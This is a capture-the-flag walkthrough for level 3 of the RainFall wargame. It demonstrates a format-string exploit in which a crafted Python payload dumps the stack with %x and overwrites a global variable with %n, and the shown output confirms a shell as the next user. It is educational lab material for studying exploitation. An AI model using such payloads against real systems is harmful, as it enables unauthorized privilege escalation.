 # Level3
Level3 is about abusing global variables and formatted strings exploits

# Tools
GDB

# Walkthrough
The home of level3 contains a binary, called level3. 

Using dogbolt, we can decompile the binary and we see a global variable m, and a `printf` taking some user input as the formatted string.

This can be leveraged to perform some formatted string exploits.

Using `objdump -t`, we can get the address of m on the stack:
```bash
objdump -t level3
...
804988c g     O .bss	00000004              m
...
```

Using the `printf` bug, we can see the content of the stack using `%x` formatters. We see that we started writing 3 addresses after we started dumping data (we write the address first, `804988c`, which is written by the fourth `%x`).

```
level3@RainFall:~$ rm -rf attack.txt; python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%x " * 19)' > attack.txt
level3@RainFall:~$ cat attack.txt - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA200 b7fd1ac0 b7ff37d0 804988c 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 
```

`%x` formatters pop data from the stack, when the `%n` push the length of what has already been written on the stack.

Before giving us access to the terminal, the programme checks whether m is 64 or not. Thus, we need to write 64 characters before pushing that value onto the stack and modifying the value of m. 

We need the 3 `%x` to pop enough data from to stack to write at the proper place, which accounts for `200 b7fd1ac0 b7ff37d0 ` -> 22 characters.
The address of m, `"\x8c\x98\x04\x08"` is 4 characters.
Thus we need to write 64 - 22 - 4 = 38 padding characters. 
Finally, we push the value with `%n`.

```
level3@RainFall:~$ rm -rf attack.txt; python -c 'print("\x8c\x98\x04\x08" + "A" * 38 + "%x " * 3 + "%n")' > attack.txt
level3@RainFall:~$ cat attack.txt - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA200 b7fd1ac0 b7ff37d0
Wait what?!
whoami
level4
```

# Resources
[2001 Paper on Formatted Strings exploits](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
[Exploiting Formatted Strings](https://security.stackexchange.com/questions/174696/how-to-exploit-variables-value#comment335877_174730)
[OWASP Formatted String Exploit](https://owasp.org/www-community/attacks/Format_string_attack)
[LiveOverflow's Binary Exploit 0x11 - Formatted Strings](https://www.youtube.com/watch?v=0WvrSfcdq1I)